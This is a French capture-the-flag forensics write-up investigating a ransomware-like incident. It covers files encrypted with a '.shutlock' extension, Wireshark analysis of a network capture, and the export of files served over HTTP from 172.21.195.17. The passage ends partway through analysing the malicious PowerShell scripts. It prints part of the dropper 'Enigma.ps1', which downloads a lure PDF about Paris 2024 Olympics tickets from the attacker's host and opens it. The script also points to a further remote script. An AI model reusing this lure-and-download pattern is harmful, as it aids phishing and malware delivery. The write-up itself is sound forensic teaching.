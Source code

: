 En me rendant dans les dossier personnels de l'utilisatrice (**Desktop**, **Documents** et **Downloads**), je me suis rendu compte que des objets portent l'extension `.shutlock`, notamment un objet **importante_recherche.shutlock**. Les ouvrir ne sert à rien car il n'y a rien de lisible, on a surement trouvé les fichiers chiffrés.

On peut également remarquer un fichier nommé **iv** dans le dossier **Documents**, il n'a rien à faire la et on peut supposer qu'il à servit au chiffrement des données, on le met donc de côté.

On à également un dossier **AppData** mais rien n'a l'air intéressant de prime abord, on y reviendra suremment plus tard.

Après avoir fait le tour du dossier, on peut aller voir du côté de la capture réseau.

### Capture réseau

Afin d'analyser cette capture, on ouvre le fichier avec [Wireshark](https://www.wireshark.org/) (ou [Tshark](https://www.wireshark.org/docs/man-pages/tshark.html) pour la version CLI), on se rend alors compte que le fichier est très gros et que chercher "a la main" n'est pas la solution la plus efficace.

Afin de dégrossire tout ça, on va chercher à identifier l'adresse du PC en listant les adresses privées, pour ça il faut se rendre dans `Statistiques > Points de terminaison > IPV4`.

On trouve alors deux adresses IP privées, la **192.168.1.1** et la **10.0.2.15**.

On peut revenir sur la capture et filtrer les résultats pour avoir l'une ou l'autre des adresses: `ip.addr==192.168.1.1 || ip.addr==10.0.2.15`.

Bien que cela ait un peu réduit le nombre d'entrées, il rest encore beaucoup d'entrées, on remarque également qu'il y a beaucoup de requêtes TCP, on peut alors aller regarder les protocoles présents en se rendant dans `Statistiques > Hiérarchie des Protocoles`.

Le tableau qui s'affiche nous apprend qu'il y a du, TLS, du DNS mais surtout des transferts de fichiers en HTTP (JPEG, du texte, etc.). ça ressemble à une piste.

Afin de voir les fichiers échangés en HTTP, il faut se rendre dans `Fichier > Exporter Objets > HTTP...` et regrouper les adresses IPs d'un côté et les noms d'hôtes de l'autre en cliquant sur "Organiser par nom d'hôte" en haut.

On peut voir que plusieurs fichiers ont été échangés avec l'IP **172.21.195.17**, soit:

- **Enigma.ps1**
- **Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf**
- **Encrypt.ps1**
- **key.txt**
- **wallpaper.jpg**

Les plus intéressants sont **Enigma.ps1**, **Encrypt.ps1** et **key.txt**, on les téléchargent.

### Analyse des scripts

Ces scripts powershell sont très certainement ceux qui ont été utilisés pour chiffrer le PC, on va donc essayer de comprendre ce qu'ils font.

#### Enigma.ps1

```ps1
$IP_addr = '172.21.195.17:5000'

$urlFakeJob = "http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf"
$urlTask = "http://$IP_addr/Holmes/GetFileInfo.ps1"
$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'
$TaskFile = 'GetFilesInfo.ps1'

#Get the lure pdf
Invoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer

# Open the PDF file with the default PDF viewer
Start-Process -FilePath $fakePlaceOffer
```